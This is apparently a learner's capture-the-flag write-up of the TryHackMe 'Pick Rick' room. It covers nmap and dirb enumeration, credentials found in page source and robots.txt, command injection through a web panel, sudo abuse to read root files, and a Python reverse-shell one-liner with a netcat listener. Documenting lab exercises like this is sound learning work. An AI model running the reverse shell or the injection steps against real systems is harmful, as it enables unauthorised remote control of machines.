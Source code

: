 https://tryhackme.com/room/picklerick
nmap 10.10.214.232 -A -SV

Output :
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-02 11:39 EST
Nmap scan report for 10.10.214.232
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bfc2a89ce4cd69cb5df52f7ee2a3d1a3 (RSA)
|   256 4bbc5f28ba43444e49fdacb21803ffea (ECDSA)
|_  256 cb4e639e67ce605530cebfbac8537ad2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.77 seconds
Interesting to note the open ssh port and port 80 is open making it so we can further enumerate the website that it is hosting. 
|   2048 bfc2a89ce4cd69cb5df52f7ee2a3d1a3 (RSA)
|   256 4bbc5f28ba43444e49fdacb21803ffea (ECDSA)
|_  256 cb4e639e67ce605530cebfbac8537ad2 (ED25519)


Unsure is this is important or not. 

|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)

Important because this may be a clue to the fuirst tag. Also the Apache version is good for further enumeration or exploitation. 
Moving on to what the website offers, we have…not much other than some text and a file photo. Nothing is provided in the page source information either. 
Just from memory or the school we would further look at what the site offers by running a directory finder or enemurator. In looking at tools that provide suchj a thing, we can usedirbuster and run it against a known dir list. 

Running dirb http://10.10.214.232 
Side note ,usure on why http has to be inputted. Ran it the first time like nmap a n error returned. 
START_TIME: Tue Jan  2 11:50:33 2024
URL_BASE: http://10.10.214.232/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
Common.txt is running by default, interesting to note that we can create or add out own list if needed.
While dir is running, looked at the page source again and found 
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

May be needed to for the ssh login possibly. 
Interesting to note that there is a place where the dev can place dir that they want hidden in the robots.txt. 
Page hangs for some reason, found the issue wrong ip.
http://10.10.214.232/robots.txt
Found: Wubbalubbadubdub may be a user or pass



In the mean time, found an /assets/ tag in firb. 
http://10.10.214.232/assets/
Index of /assets
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	bootstrap.min.css	2019-02-10 16:37 	119K	 
[ ]	bootstrap.min.js	2019-02-10 16:37 	37K	 
[IMG]	fail.gif	2019-02-10 16:37 	49K	 
[ ]	jquery.min.js	2019-02-10 16:37 	85K	 
[IMG]	picklerick.gif	2019-02-10 16:37 	222K	 
[IMG]	portal.jpg	2019-02-10 16:37 	50K	 
[IMG]	rickandmorty.jpeg	2019-02-10 16:37 	488K	 
Apache/2.4.18 (Ubuntu) Server at 10.10.214.232 Port 80
Opened all of them and they did not help. Only opened the home page, a long list of text and some gifs. 
Dirb is still running. 
Checkpoint.
We have \\
Wubbalubbadubdub
    Username: R1ckRul3s
\\
Dirb has now found and index.html which brings me to the same home page. Kind of stuck here until dirb comes up with more directories to test. Going to run a scanner called nikto in the mean time to check where the dirb does not. 

[Screenshot 1]


Unable to to view other tabs without bbeing greeted to a Only the REAL rick can view this page.
Basis command to run is LS.
Found 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

Sup3rS3cretPickl3Ingred.txt

Found the first tag with the http://10.10.214.232/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair

Interesting to note down the list is the denied.php
Nothing there

Something to note is the clue.txt
http://10.10.214.232/clue.txt

Look around the file system for the other ingredient.

We may be looking at the system directory when trying running LS.

There may be hidden files that are only assessable if root or super admin. The machine may be verlnerable to injection because LS can be run or we can even setup a reverse shell to communicate more effectively with the machine. 

Going to go the easier route for now. 
Need to figure out what we can run and how much is locked down and is capable. 
Bad: cd, less
Good: ls and pwd
Pwd: /var/www/html

Ls -al reveals the access to the directory.
[Screeshot 2]


Interesting to note the 
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..

The dots may be a hint 
 Found ../ to navigate to the working root directory, after some fuzzing. Found the command 
cd ../../../../; ls -al; pwd


total 88
drwxr-xr-x  23 root root  4096 Jan  2 16:37 .
drwxr-xr-x  23 root root  4096 Jan  2 16:37 ..
drwxr-xr-x   2 root root  4096 Nov 14  2018 bin
drwxr-xr-x   3 root root  4096 Nov 14  2018 boot
drwxr-xr-x  14 root root  3260 Jan  2 16:36 dev
drwxr-xr-x  94 root root  4096 Jan  2 16:37 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Nov 14  2018 initrd.img -> boot/initrd.img-4.4.0-1072-aws
drwxr-xr-x  21 root root  4096 Feb 10  2019 lib
drwxr-xr-x   2 root root  4096 Nov 14  2018 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Nov 14  2018 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 136 root root     0 Jan  2 16:36 proc
drwx------   4 root root  4096 Feb 10  2019 root
drwxr-xr-x  25 root root   880 Jan  2 16:37 run
drwxr-xr-x   2 root root  4096 Nov 14  2018 sbin
drwxr-xr-x   5 root root  4096 Feb 10  2019 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 Jan  2 16:36 sys
drwxrwxrwt   8 root root  4096 Jan  2 17:17 tmp
drwxr-xr-x  10 root root  4096 Nov 14  2018 usr
drwxr-xr-x  14 root root  4096 Feb 10  2019 var
lrwxrwxrwx   1 root root    27 Nov 14  2018 vmlinuz -> boot/vmlinuz-4.4.0-1072-aws

Inmteresting to note 
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwx------   4 root root  4096 Feb 10  2019 root
drwxr-xr-x  14 root root  3260 Jan  2 16:36 dev
Navigated the home with 

cd /home/: ls -al: pwd
found 
total 16
drwxr-xr-x  4 root   root   4096 Feb 10  2019 .
drwxr-xr-x 23 root   root   4096 Jan  2 16:37 ..
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu
/home

All were bad exceot for Rick.
Found 
cd /home/rick; ls -al; pwd

total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
/home/rick

Found the second part in the directory 

Interesting to note that because I could not simply use 
cd /home/rick/"second ingredients"; ls -al; pwd
only because this second ingredients seems like a word doc and it doesn’t help us if we can print the word doc. 
Has to use research and find a command that could view the contects of the second ingredients file. 
That command is less. The entirety of the command was less /home/rick/"second ingredients" because we are specifying the directory and “lessing” the second ingredients txt file.


Second part 
1 jerry tear

Now with the second part,m needed to check what provielages we currently have with sudo -l
We see Matching Defaults entries for www-data on ip-10-10-214-232.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-214-232.eu-west-1.compute.internal:
(ALL) NOPASSWD: ALL

It seems we can excute any command with privleage.

We can run sudo without anything stopping us or a password.

Running sudo ls /home 
Returns Rick and Ubuntu which again, doesn return anything.
Trying to navigate the machine more.

sudo ls /
returns 

bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz

possible good stuff
root: 3rd.txt
dev a list of nonsense
lost+found a list of nonsense

again with the less command, which looks like 
sudo less /root/3rd.txt because again, we are trying to view the contents of the txt through the command line. 
The last flag is fleep juice







Insteresting to note

Going to try the room again with the cyber mentors, way of finishing the room with netcat and python exploits.

Needed to find that python3 was used with which python3.returned /usr/bin/python3 meaning that we may be able to run python code to setup a reverse shell through the machine. The payload was found here 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python


python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.98.64",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp on the port 4444

success the page hangs and the connection is good 

listening on [any] 4444 ...
connect to [10.2.98.64] from (UNKNOWN) [10.10.214.232] 48098
  in navigating the host and because there is no privilege, we can navigate unrestrained on the box.

Did some digging with ls and cd and found the root folder and found the third answer. Much easier when you are using a reverse shell. 
